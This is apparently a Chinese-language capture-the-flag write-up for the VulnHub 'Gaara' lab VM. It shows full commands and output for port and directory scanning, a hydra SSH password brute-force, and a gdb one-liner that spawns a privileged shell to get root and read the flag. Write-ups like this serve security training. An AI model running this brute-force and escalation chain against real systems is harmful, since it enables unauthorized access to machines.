





# Gaara

> https://download.vulnhub.com/gaara/Gaara.ova

靶场IP：`192.168.2.6`

扫描对外端口服务

```
┌──(root㉿kali)-[/tmp]
└─# nmap -p1-65535 -sV 192.168.2.6
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-04 09:26 EDT
Nmap scan report for 192.168.2.6
Host is up (0.00016s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
MAC Address: 08:00:27:86:6F:1F (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.87 seconds

```

浏览器访问


爆破web目录，发现`/Cryoserver `目录

```
┌──(root㉿kali)-[/tmp]
└─# gobuster  dir -u http://192.168.2.6/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.2.6/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/09/04 09:31:55 Starting gobuster in directory enumeration mode
===============================================================
/server-status        (Status: 403) [Size: 276]
/Cryoserver           (Status: 200) [Size: 327]
                                               
===============================================================
2022/09/04 09:32:21 Finished
===============================================================

```

拖到最下面有三个目录

```
/Temari
/Kazekage
/iamGaara
```


访问`/iamGaara`



使用hydra爆破密码

```
┌──(root㉿kali)-[~/Desktop]
└─# hydra -l gaara -P /usr/share/wordlists/rockyou.txt 192.168.2.6 ssh
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-09-04 09:41:02
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://192.168.2.6:22/
[STATUS] 120.00 tries/min, 120 tries in 00:01h, 14344282 to do in 1992:16h, 13 active
[22][ssh] host: 192.168.2.6   login: gaara   password: iloveyou2
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 4 final worker threads did not complete until end.
[ERROR] 4 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-09-04 09:43:25

```

ssh登录



根据提示，找到`/usr/local/games`目录



发现一个加密字符串文件

```
gaara@Gaara:/usr/local/games$ cat .supersecret.txt 

Godaime Kazekage:

+++++ +++[- >++++ ++++< ]>+++ +.<++ ++++[ ->+++ +++<] >+.-- ---.< +++++
+++[- >---- ----< ]>--- -.<++ +++++ ++[-> +++++ ++++< ]>+++ +++++ .<+++
[->-- -<]>- .++++ ++.<+ +++++ +++[- >---- ----- <]>-- --.<+ +++++ +++[-
>++++ +++++ <]>+. <+++[ ->--- <]>-- --.-- --.<+ ++[-> +++<] >++.. <+++[
->+++ <]>++ ++.<+ +++++ +++[- >---- ----- <]>-- ----- -.<++ +++++ ++[->
+++++ ++++< ]>+++ .<+++ [->-- -<]>- --.+. +++++ .---. <++++ ++++[ ->---
----- <]>-- ----- ----. <++++ +++++ [->++ +++++ ++<]> +++++ +++.< +++[-
>---< ]>-.+ +++++ .<+++ +++++ +[->- ----- ---<] >---- .<+++ +++++ [->++
+++++ +<]>+ ++.<+ ++[-> +++<] >+++. +++++ +.--- ----- -.--- ----- .<+++
+++++ [->-- ----- -<]>- ---.< +++++ +++[- >++++ ++++< ]>+++ +++.+ ++.++
+++.< +++[- >---< ]>-.< +++++ +++[- >---- ----< ]>--- -.<++ +++++ ++[->
+++++ ++++< ]>++. ----. --.-- ----- -.<++ +[->+ ++<]> +++++ +.<++ +[->-
--<]> ---.+ .++++ +.--- ----. <++++ ++++[ ->--- ----- <]>-- ----- .<+++
+++++ +[->+ +++++ +++<] >+++. <+++[ ->--- <]>-- -.--- ----. <++++ [->++
++<]> +++.< +++++ ++++[ ->--- ----- -<]>- --.<+ +++++ ++[-> +++++ +++<]
>++++ +.--- -.<++ ++[-> ++++< ]>++. <+++[ ->--- <]>-. +++.< +++[- >+++<
]>+++ +.<++ +++++ [->-- ----- <]>-- ----- --.<+ ++++[ ->--- --<]> -----
-.<++ +++++ [->++ +++++ <]>++ +.<++ +++[- >++++ +<]>+ ++++. +++++ ++.<+
+++++ +++[- >---- ----- <]>-- ----- -.<++ ++++[ ->+++ +++<] >++++ .<+++
++[-> +++++ <]>.< ++++[ ->+++ +<]>+ .<+++ [->-- -<]>- ----. +.<++ +[->+
++<]> ++++. <++++ +++++ [->-- ----- --<]> .<

```

使用**Brainfuck**解密发现，这是一个假的



使用LinPEAS扫描，发现gdb可用.



使用gdb进行提权

```
gaara@Gaara:/tmp$ gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit
GNU gdb (Debian 8.2.1-2+b3) 8.2.1
Copyright (C) 2018 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word".
# whoami
root
# ls /root
root.txt
# cat /root/root.txt


 ██████╗  █████╗  █████╗ ██████╗  █████╗ 
██╔════╝ ██╔══██╗██╔══██╗██╔══██╗██╔══██╗
██║  ███╗███████║███████║██████╔╝███████║
██║   ██║██╔══██║██╔══██║██╔══██╗██╔══██║
╚██████╔╝██║  ██║██║  ██║██║  ██║██║  ██║
 ╚═════╝ ╚═╝  ╚═╝╚═╝  ╚═╝╚═╝  ╚═╝╚═╝  ╚═╝

8a763d61f71db8e7aa237055de928d86

Congrats You have Rooted Gaara.

Give the feedback on Twitter if you Root this : @0xJin

```

